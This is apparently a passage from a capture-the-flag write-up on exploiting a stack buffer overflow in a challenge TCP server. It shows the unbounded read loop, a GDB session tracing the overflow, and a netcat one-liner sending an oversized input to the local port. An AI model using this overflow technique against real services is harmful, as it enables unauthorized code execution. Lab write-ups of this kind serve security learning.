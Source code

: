 ```c
while ((ret = read(0, &buffer[index], 1)) > 0) {
    index++;
    buffer[index] = '\0';
    fflush(stdout);
    if (buffer[index - 1] == 0x0a) {
        buffer[index - 1] = '\0';
        break;
    }
}
```

The server is reading the input one character at a time until it encounters a '\n' character. We can exploit the `read` function to create a buffer overflow to overwrite the return address of `manage_tcp_client` function.

We can start by exporting shell code to the environment, starting `GDB` and setting it up to follow the child process. We can disassesemble the `manage_tcp_client` function and set a break point on the while loop reading from the socket and then at the return address.

```bash
icyfire@razor level8 → gdb /var/challenge/level8/8
Reading symbols from /var/challenge/level8/8...
(gdb) set follow-fork-mode child
(gdb) disas manage_tcp_client
...
   0x08048aef <+157>:	cmpl   $0x0,-0x4(%ebp)
   0x08048af3 <+161>:	jg     0x8048a8b <manage_tcp_client+57>
   0x08048af5 <+163>:	cmpl   $0x0,-0x4(%ebp)  
...
   0x08048b6f <+285>:	leave
   0x08048b70 <+286>:	ret
...
(gdb) break *0x08048af3
Breakpoint 1 at 0x8048af3
(gdb) break *0x08048b70
Breakpoint 2 at 0x8048b70
(gdb) run -p 42068
Starting program: /var/challenge/level8/8 -p 42068
Starting server on port 42068
```

We can use `netcat` to send input to the program

```bash
icyfire@razor ~ → python -c "print(b'A' * 65536 + b'\n')" | nc localhost 42068
```

Continuing the loop till the last character and then examining the end of the buffer:

```bash
[Attaching after process 3825889 fork to child process 3996620]
[New inferior 2 (process 3996620)]
[Detaching after fork from parent process 3825889]
[Inferior 1 (process 3825889) detached]
[Switching to process 3996620]

Thread 2.1 "8" hit Breakpoint 1, 0x08048af3 in manage_tcp_client ()
(gdb) continue 65535
Will ignore next 65533 crossings of breakpoint 1.  Continuing.

Thread 2.1 "8" hit Breakpoint 1, 0x08048af3 in manage_tcp_client ()
(gdb) x/16wx $esp + 65536
0xfffed2a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xfffed2b0:	0x0000ffff	0x00000001	0xffffd328	0x08049267
0xfffed2c0:	0x00000004	0xffffd2f4	0xffffd2e0	0xffffd2dc
0xfffed2d0:	0x00000004	0x00000000	0x00000000	0x00000000
```
